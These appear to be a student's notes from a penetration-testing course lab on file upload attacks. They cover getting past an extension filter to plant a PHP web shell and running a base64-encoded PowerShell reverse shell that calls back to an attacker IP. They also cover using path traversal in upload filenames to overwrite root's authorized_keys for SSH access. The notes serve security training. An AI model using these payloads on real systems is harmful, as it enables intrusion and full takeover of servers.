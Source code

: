 ### Using Executable Files

Locating upload mechanisms...

If  a web app is CMS, we can upload an avatar to our profile, create blog posts, or web pages with attached files. 

Using this web app

![Figure 14: Updated](https://static.offsec.com/offsec-courses/PEN-200/imgs/commonwebattacks/37d2c066c3cafc48221c5ea1bd6c7994-cwa_fu_exform6.png)

Notice:
* Upload form for photos
* XAMPP icon (app is probably running XAMPP stack)

Let's try to upload a text file instead of a photo. 

Create test file:

```
kali@kali:~$ echo "this is a test" > test.txt
```

Upload to site

![Figure 15: Successful Upload of test.txt](https://static.offsec.com/offsec-courses/PEN-200/imgs/commonwebattacks/cb17ff179a44406765a7941273af4b38-cwa_fu_exupload3.png)

This worked. 

Try to upload `simple-backdoor.php` now.

![Figure 16: Failed Upload of simple-backdoor.php](https://static.offsec.com/offsec-courses/PEN-200/imgs/commonwebattacks/4a72622e1b3880ad2492c06614d40f4a-cwa_fu_exphpuloadfail2.png)

Not allowed. 

Let's try to bypass this filter.

Filter bypass methods:
* Change file extension from `.php` to `.phps`or `.php7`
* Modify characters in file extension from `.php` to `.pHP`

Looks like modifying the file extension characters worked

![Figure 17: Successful Upload of simple-backdoor.pHP](https://static.offsec.com/offsec-courses/PEN-200/imgs/commonwebattacks/3c35cddf396565e48313a5605838c0c4-cwa_fu_expHP2.png)

Using #curl to verify the file uploaded to uploads directory.

```hlt:1,7
kali@kali:~$ curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=dir
...
 Directory of C:\xampp\htdocs\meteor\uploads

04/04/2022  06:23 AM    <DIR>          .
04/04/2022  06:23 AM    <DIR>          ..
04/04/2022  06:21 AM               328 simple-backdoor.pHP
04/04/2022  06:03 AM                15 test.txt
               2 File(s)            343 bytes
               2 Dir(s)  15,410,925,568 bytes free
...
```

Let's get a reverse shell.

Start netcat listener.

```hlt:1
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
```

Using PowerShell one-liner for reverse shell. Encode the string with base64. 

Encoding the oneliner in PowerShell on Linux

```
kali@kali:~$ pwsh
PowerShell 7.1.3
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'


PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

PS> $EncodedText =[Convert]::ToBase64String($Bytes)

PS> $EncodedText
JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0
...
AYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA


PS> exit
```

NTS: Install PowerShell on Linux.

Use curl to execute the encoded one-liner via the `simple-backdoor.pHP`

Add base64 encoded string using `-enc` parameter with `%20` to URL encode the space. 

```hlt:1
kali@kali:~$ curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0
...
AYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

Incoming reverse shell 

```
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.3] from (UNKNOWN) [192.168.50.189] 50603
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.50.189
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254

PS C:\xampp\htdocs\meteor\uploads> whoami
nt authority\system
```
### Using Non-Executable Files

When uploading files to a web app always try the upload twice to see how app responds. 

If app says file already exists, we could bruteforce the contents of web server. 

If app displays an error, we may get info such as programming language or web technologies in use. 

Ex: Uploaded a test.txt file to web app and caught the upload request with Burp. 

POST request for the file upload of test.txt in Burp

![Figure 20: POST request for the file upload of test.txt in Burp](https://static.offsec.com/offsec-courses/PEN-200/imgs/commonwebattacks/0f3ac15c454bc8a783e1979ded24f48c-cwa_fu_burptxtcom.png)

Determine if we have directory traversal vulnerability with test.txt 

Relative path in filename to upload file outside of web root
![Figure 21: Relative path in filename to upload file outside of web root](https://static.offsec.com/offsec-courses/PEN-200/imgs/commonwebattacks/09717aa19bfbb0fe03b6cab91643e9a7-cwa_fu_burprelcom.png)

Assuming the relative path was used for placing the file (and that the `../` weren't sanitized), we could attempt to blindly overwrite files to gain system access. (NOT GOOD FOR REAL-WORLD ENGAGEMENTS)

***** Brief Notes on Web Server Accounts and Permissions *****

Dedicated web servers often have dedicated users. 

Linux apps:
`Apache`and `Nginx` would have `www-data`user 

Windows apps:
`IIS`would have `Network Service` account

`IIS version 7.5` included the 

_IIS Application Pool Identities_- virtual accounts running web apps grouped by _application pools_. 

Always try to leverage root or admin privileges in file upload vulnerability.

Try to overwrite `authorized_keys` file in root's home directory. 

Creating SSH key-pair with ssh-keygen 

Prepare authorized_keys file for File Upload

```
kali@kali:~$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): fileup
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in fileup
Your public key has been saved in fileup.pub
...

kali@kali:~$ cat fileup.pub > authorized_keys
```
Exploit File Upload to write authorized_keys file in root home directory

![Figure 22: Exploit File Upload to write authorized_keys file in root home directory](https://static.offsec.com/offsec-courses/PEN-200/imgs/commonwebattacks/999ddab4c6543dc3d727618bc14ed495-cwa_fu_burprelsshcom.png)

If we overwrote the `authorized_keys` file of root user, we can connect with our private key over ssh. 

Using the SSH key to successufully connect via SSH as the root user

```hlt:1
kali@kali:~$ ssh -p 2222 -i fileup root@mountaindesserts.com
The authenticity of host '[mountaindesserts.com]:2222 ([192.168.50.16]:2222)' can't be established.
ED25519 key fingerprint is SHA256:R2JQNI3WJqpEehY2Iv9QdlMAoeB3jnPvjJqqfDZ3IXU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
...
root@76b77a6eae51:~#
```

This worked. 